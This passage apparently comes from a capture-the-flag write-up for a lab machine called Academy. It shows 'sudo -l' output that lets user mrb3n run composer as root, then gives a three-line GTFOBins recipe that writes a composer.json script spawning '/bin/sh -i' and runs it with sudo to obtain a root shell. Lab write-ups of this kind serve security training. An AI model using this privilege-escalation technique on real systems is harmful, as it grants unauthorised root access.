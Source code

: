 ### Composer SUID

When checking `sudo` privileges for `mrb3n`, we find out that `composer` can be run as `root`.

```
mrb3n@academy:/var/log/audit$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

Based on GTFOBins, we can run this to get a root shell:

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

<figure><img src="../../../.gitbook/assets/image (143).png" alt=""><figcaption></figcaption></figure>

Rooted!
